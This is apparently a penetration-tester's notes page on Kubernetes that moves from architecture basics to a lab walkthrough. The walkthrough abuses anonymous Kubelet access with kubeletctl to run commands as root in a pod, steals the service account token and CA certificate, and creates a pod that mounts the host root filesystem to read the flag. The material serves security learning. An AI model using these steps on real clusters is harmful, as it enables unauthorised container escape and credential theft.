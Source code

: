 ```yaml
---
description: >-
  Developed by Google, Kubernetes leverages over a decade of experience in
  running complex workloads.
---
```


# Kubernetes

{% embed url="https://www.youtube.com/watch?ab_channel=GoogleCloudTech&v=cC46cg5FFAM" %}
What is Kubernetes
{% endembed %}

### What is Kubernetes or K8s

Kubernetes is a portable, extensible and open source platform for managing containerized workloads and services. It is a container orchestration system which functions by runnnig applications in containers isolated from the host system. Originally developed by Google, it is now maintained by the Cloud Native Computing Foundation (CNCF)

<figure><img src="../.gitbook/assets/image (121).png" alt=""><figcaption><p>Image from: <a href="https://www.opsramp.com/guides/why-kubernetes/kubernetes-architecture/">https://www.opsramp.com/guides/why-kubernetes/kubernetes-architecture/</a></p></figcaption></figure>

### Container Orchestrator

Kubernetes makes sure each container is where it supposed to be and the containers can work together. It takes care of running services the way an app developer wants them to run. Kubernetes orchestrates these containers across multiple hosts, helping manage the lifecycle, networking, and distribution of containers to optimize resource use.

{% hint style="info" %}
#### For terms checkout the Kubernetes cheat sheet. https://kubernetes.io/docs/reference/kubectl/cheatsheet/
{% endhint %}

#### -- Cluster

Is a set of machines individually referred to as nodes used to run containerized applications managed by Kubernetes.

#### -- Pod:

Is a single container or a set of containers running on a Kubernetes cluster. It can hold one or more closely connected containers. Each pod functions as a separate virtual machine on a node, complete with its own IP, hostname, and other details.

#### -- Nodes&#x20;

Is either a virtual or physical machine. A cluster consists of a master node and a number of worker nodes. The master node hosts the Kubernetes Control Plane, which manages and coordinates all activities within the cluster, the Minions execute the actual applications and they receive instructions from the Control Plane and ensure the desired state is achieved.

* `The Control Plane` (master node), which is responsible for controlling the Kubernetes cluster.
* `The Worker Nodes` (minions), where the containerized applications are run.

## Kubernetes API

The core of Kubernetes architecture is its API, it serves for all internal and external interactions. It  allows users to define their desired state for a system. The Kubernetes API facilitates communication and control within the Kubernetes cluster.&#x20;

In Kubernetes, an API resource acts as an endpoint containing a specific set of API objects related to a particular type, such as Pods, Services, and Deployments. Each resource type has a unique set of actions that can be performed like:

* `GET`  Retrieve information.
* `POST`  Create new resource
* `PUT` update a resource
* `PATCH` partial update to resource
* `DELETE` delete a resource

### Authentication

{% hint style="info" %}
In Kubernetes, the `Kubelet` can be configured to permit `anonymous access`.
{% endhint %}

Kubernetes supports various methods such as client certificates, bearer tokens, an authenticating proxy, or HTTP basic auth. Once the user has been authenticated, Kubernetes enforces authorization decisions using Role-Based Access Control (`RBAC`).&#x20;

#### Interact with K8's API server

{% code overflow="wrap" %}
```bash
# System:anonymous means unauthenticated user, no valid credentials or are trying to access the API server anonymously.
$ curl https://10.10.11.133:8443 -k
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {
    
  },
  "status": "Failure",
  "message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
  "reason": "Forbidden",
  "details": {
    
  },
  "code": 403
}        
```
{% endcode %}

#### Extracting Pods using the Kubelet API

`curl https://10.10.11.133:10250/pods -k | jq .` will extract names, namespaces, creation timestamps and container images. Finding container images and their versions can help us identify know vulnerabilities and exploit them.

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

### Extracting Pods with **Kubeletctl**&#x20;

`kubeletctl` is a command-line tool used to interact with the Kubelet API on Kubernetes nodes.



The command `kubeletctl -i --server 10.129.10.11 pods` is used to list all pods running on a specific Kubernetes node by directly querying the Kubelet API on that node.

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

&#x20;Using  `kubeletctl -i --server 10.129.10.11 scan rce`  we can check if we have remote code execution over any of the containers.&#x20;

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Trying the nginx container we got RCE.

```bash
kubeletctl -i --server 10.10.11.133 exec "id" -p nginx  -c nginx         
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation

To gain acces to the host system by gaining higher privileges we can obatin the service account's token and certificate (ca.crt) using [kubeletctl](https://github.com/cyberark/kubeletctl). With that we can set up a volume mount to attach the entire root filesystem from the host system

{% code overflow="wrap" %}
```bash
# Get latest version
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# Chmod
chmod +x kubectl

# Move to PATH
sudo mv kubectl /usr/local/bin/
```
{% endcode %}

#### Extracting tokens

```bash
# Get token
$ kubeletctl -i --server 10.10.11.133 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token                                                                                                                                                                                                              
```

#### Extracting Certifcates

```bash
# Get certificate
$ kubeletctl --server 10.10.11.133 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```

#### List privileges

{% code overflow="wrap" %}
```bash
# Export token as variable
$ export token=`cat k8.token`
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption><p>We have permission to create a pod. </p></figcaption></figure>

We have permissions to get, create, and list pods, which represent the running containers within the cluster. From this point, we can create a YAML configuration file to define a new container. In this configuration, we can set up a volume mount to attach the entire root filesystem from the host system into the `/root` directory of the container.

<details>

<summary>yaml file</summary>

{% code overflow="wrap" %}
```bash
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
{% endcode %}

</details>

Upload the yaml file using:

```bash
# upload the yaml file
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f PE.yaml
pod/privesc created

# Check if its running
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 get pods
NAME      READY   STATUS    RESTARTS   AGE
nginx     1/1     Running   0          6h14m
privesc   1/1     Running   0          87s
```

And finally we can read contents from host root directory

```bash
$ kubeletctl --server 10.10.11.133 exec "cat /root/root/root.txt" -p privesc -c privesc
e189181488a148esdfdsfsd7909f405579
```

